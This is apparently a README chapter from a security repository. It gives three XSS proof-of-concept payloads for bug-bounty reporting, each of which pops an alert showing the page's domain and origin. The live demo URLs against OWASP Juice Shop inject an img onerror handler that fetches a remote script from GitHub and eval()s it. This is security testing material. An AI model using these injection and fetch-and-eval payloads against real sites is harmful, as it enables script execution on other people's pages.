 # Simple Proof of Concept (PoC)

<p align="justify">This chapter covers an important topic, related to confirming the existence and exploitability of an XSS vulnerability - providing a simple technical Proof of Concept (PoC).</p>

<p align="justify">For this purpose, for a long time across the technical IT security industry, <b><code>alert(1)</code></b> has been used, almost exclusively. As already <b>explained by LiveOverflow [1]</b> in detail, this is a <b>bad practice</b> and <b>should be avoided</b>.</p>

<p align="justify">The payloads documented here provide ready-to-use alternatives, all of which address the mentioned issue.</p>

* **NOTE**: this is not an exhaustive list - further options of modifying the payload exist
    * the payloads listed here serve the purpose of providing a proven fast and simple PoC for reporting XSS vulnerabilities (e.g. via Bug Bounty platforms)
        * any additional impact is to be demonstrated via additional PoC(s) (i.e. these one serve only as a quick check that the vulnerability exists on the affected web application - to pass initial triage)
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
    * list may be updated with additional different variants

## `simpleStd.js` - round brackets; quote; space; backslash

```
alert('DOMAIN: '.concat(document.domain).concat('\nORIGIN: ').concat(window.origin));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleDec.js` - round brackets
```
alert(String.fromCharCode(68,79,77,65,73,78,58,32).concat(document.domain).concat(String.fromCharCode(10,79,82,73,71,73,78,58,32)).concat(window.origin));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleDec.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleB64.js` - round brackets, quote, `eval()`
```
eval(atob('YWxlcnQoJ0RPTUFJTjogJy5jb25jYXQoZG9jdW1lbnQuZG9tYWluKS5jb25jYXQoJ1xuT1JJR0lOOiAnKS5jb25jYXQod2luZG93Lm9yaWdpbikpOwo='));
```

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleB64.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## References

* [https://liveoverflow.com/do-not-use-alert-1-in-xss/](https://liveoverflow.com/do-not-use-alert-1-in-xss/)
